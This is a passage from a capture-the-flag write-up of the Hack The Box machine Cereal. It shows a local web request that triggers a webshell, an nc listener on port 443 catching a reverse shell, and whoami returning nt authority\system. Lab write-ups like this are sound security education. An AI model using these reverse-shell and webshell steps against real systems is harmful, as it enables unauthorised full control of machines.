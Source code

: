 

It says `NotStarted`, but that's ok.

From the SSH shell, I'll request the site. It takes a minute, but it
comes back:



    PS C:\inetpub\source\uploads> iwr http://127.0.0.1:8080 -UseBasicParsing
    StatusCode        : 200
    StatusDescription : OK 
    ...[snip]...



While it's waiting, status lines start printing on the webshell shell:



    The file 'App_Web_3u0g0msp.0.cs' was Changed at 05/30/2021 12:45:21
    Current trig: 0 by 'App_Web_3u0g0msp.0.cs'
    The file 'App_Web_3u0g0msp.1.cs' was Changed at 05/30/2021 12:45:21
    The file 'App_Web_3u0g0msp.0.cs' was Changed at 05/30/2021 12:45:22
    The file 'App_Web_3u0g0msp.0.cs' was Changed at 05/30/2021 12:45:22
    The file 'App_Web_u0qkgrng.0.cs' was Changed at 05/30/2021 12:45:36
    The file 'App_Web_u0qkgrng.1.cs' was Changed at 05/30/2021 12:45:36
    The file 'App_Web_y2w2ry3y.0.cs' was Changed at 05/30/2021 12:45:37
    The file 'App_Web_y2w2ry3y.1.cs' was Changed at 05/30/2021 12:45:37
    The file 'App_Web_y2w2ry3y.2.cs' was Changed at 05/30/2021 12:45:37



When it completes, there's a callback at my `nc`:



    oxdf@parrot$ nc -lvnp 443
    listening on [any] 443 ...
    connect to [10.10.14.15] from (UNKNOWN) [10.10.10.217] 49791
    Windows PowerShell 
    Copyright (C) Microsoft Corporation. All rights reserved.

    PS C:\windows\system32\inetsrv> whoami
    nt authority\system




[« HTB: Cereal](/htb-cereal.md)






